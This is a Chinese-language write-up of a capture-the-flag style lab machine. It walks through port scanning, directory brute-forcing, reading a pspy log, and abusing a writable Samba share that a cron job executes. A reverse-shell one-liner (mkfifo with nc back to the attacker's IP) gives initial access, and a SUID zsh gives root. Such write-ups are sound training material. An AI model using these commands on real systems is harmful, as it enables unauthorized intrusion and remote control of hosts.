[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.184 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

得到端口号80,139,445,3306

- 分别进行TCP详细扫描，漏洞扫描和UDP扫描

## TCP详细扫描



初步思路

- 对mysql进行admin用户撞库
- 139和445端口联动，samba协议

## 漏洞扫描



- 80端口枚举了一个logs目录，其他端口没什么信息

## UDP扫描



# 端口分析

先分析一下80端口有的信息

- 默认页面是维护页面，尝试目录爆破，以及利用漏洞扫描得到的logs目录

```
gobuster dir -u "http://192.168.174.184" -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -x php,txt,zip
```



尝试一下发现只有logs有信息，其他都是禁止访问，其中/logs目录中只有management.log是可以访问的



是一个日志文件，大致意思是

```
配置：打印事件(彩色开启)：开启进程监控 | 关闭文件系统事件监控
每100毫秒扫描一次进程，同时监听inotify事件
监控目录【递归扫描】：/tmp /etc /home /var /opt
【不递归扫描】：无
正在排空启动阶段堆积的文件事件...
完成
```

这是 **pspy**（pspy64，Linux 无 inotify 监控进程工具）启动输出，pspy 用来**不用 root 权限，就能看到所有用户执行的命令，包括 crontab 定时任务**。



发现从web-control和product-control两个文件中添加了777权限，并且从/bin/sh启动

## 分析samaba协议

```
enum4linux
```



发现有可访问的共享目录



确认一下

```
smbclient //192.168.174.184/ITDEPT
```



成功登录，这时发现我们当前的文件夹应该是日志中既加权限有用sh启动的文件所在文件夹，但是没有任何文件

- 尝试写入相同的文件名，并写入反弹shell（这里的bash -i不生效，换了一种，`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 5555 >/tmp/f`）

- 发现不能写入，但是可以上传，在本地写好后直接上传



在本地开监听后马上就接收到了反弹shell

# 提权

查找拥有suid权限的文件发现了zsh

**zsh（Z shell）**，是一款**命令行解释器（shell）**，和大家熟悉的 `bash` 是同类东西，都是用来解析你在终端敲的命令。

> 简单一句话：**就是你在 Kali 里输入命令的那个终端底层程序**

在CTFObins找了一下，直接执行就可以提权

```
zsh
```



成功提权

